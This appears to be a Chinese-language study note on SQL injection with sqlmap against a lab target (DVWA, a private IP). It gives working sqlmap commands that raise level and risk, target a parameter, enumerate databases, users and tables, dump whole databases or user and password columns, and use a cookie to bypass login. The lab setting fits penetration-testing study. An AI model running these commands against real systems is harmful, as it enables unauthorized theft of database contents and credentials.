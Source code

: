 测试注入点

```sh
自动判断回复
sqlmap -u "url" --batch    
加大级别 有原来的级别1变成5 风险也变成5
sqlmap -u "url" --batch  --level=5 --risk=5
```

测试注入，之前的dvwa需要登录，我们先测试不需要登录的

![image-20201114081344876](72、sql注入/image-20201114081344876.png)

```sh
指定自动注入
sqlmap -u "http://192.168.82.101/cms/main?id=1&username=tom&pass=123" --batch  -p username
```

![image-20201114084707674](72、sql注入/image-20201114084707674.png)

```sh
其他参数
获取所有数据库  --dbs
sqlmap -u "http://192.168.82.101/cms/main?id=1&username=tom&pass=123" --batch  -p username --dbs
--users 获取所有用户
--current-user 获取当前用户
--current-db 获取当前数据库
-D "database_name" --tables 获取数据中的所有表
-D "database_name" -T "table_name" --columns 获取表里的所有字段
--dump-all 下载整个数据库的数据
-D "database_name" -T "table_name" --dump  下载这张表
-D "database_name" -T "table_name" -C "userName，userPwd" --dump  下载这张表里的两个字段数据
```

获取cookie 相当于拿到你登陆的信息 绕过登陆页面 进行注入

![image-20201114093948451](72、sql注入/image-20201114093948451.png)

![image-20201114095310742](72、sql注入/image-20201114095310742.png)
